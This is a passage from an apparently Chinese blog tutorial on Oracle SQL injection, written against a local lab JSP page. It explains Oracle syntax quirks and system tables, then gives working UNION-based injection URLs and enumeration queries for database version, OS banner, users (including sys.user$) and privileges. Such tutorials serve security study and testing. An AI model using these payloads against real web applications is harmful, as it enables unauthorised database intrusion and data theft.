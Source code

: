 单引号和双引号在Oracle中虽然都是字符串，但是双引号可以用来消除关键字，比如`sysdate`。

Oracle中limit应该使用虚表中的rownum字段通过where条件判断。
![image](https://y4er.com/img/uploads/20200318214341.png)

Oracle中没有空字符，`''`和'null'都是null，而MySQL中认为`''`仍然是一个字符串。

Oracle对数据格式要求严格，比如`union select`的时候，放到下文讲。

Oracle的系统表：
- dba_tables : 系统里所有的表的信息，需要DBA权限才能查询
- all_tables : 当前用户有权限的表的信息
- user_tables: 当前用户名下的表的信息
- DBA_ALL_TABLES：DBA 用户所拥有的或有访问权限的对象和表
- ALL_ALL_TABLES：某一用户拥有的或有访问权限的对象和表
- USER_ALL_TABLES：某一用户所拥有的对象和表

**DBA_TABLES >= ALL_TABLES >= USER_TABLES**

## 信息收集
从现在开始，我们以注入点`http://localhost:8080/oracleInject/index?username=admin`为例讲解。代码随便写一个jsp网页就行了。

![image](https://y4er.com/img/uploads/20200318212378.png)

获取数据库版本信息
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,'a',(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%25') from dual -- +
```
![image](https://y4er.com/img/uploads/20200318218628.png)

获取操作系统版本信息
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,'a',(SELECT banner FROM v$version where banner like 'TNS%25') from dual -- +
```
![image](https://y4er.com/img/uploads/20200318214842.png)

获取当前数据库
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,'a',(SELECT name FROM v$database) from dual -- +
```
![image](https://y4er.com/img/uploads/20200318218985.png)

获取数据库用户
```sql
SELECT user FROM dual;
```
获取所有数据库用户
```sql
SELECT username FROM all_users;
SELECT name FROM sys.user$; -- 需要高权限
```
获取当前用户权限
```sql
SELECT * FROM session_privs
```
获取当前用户有权限的所有数据库
```sql
SELECT DISTINCT owner, table_name FROM all_tables
```
![image](https://y4er.com/img/uploads/20200318214705.png)
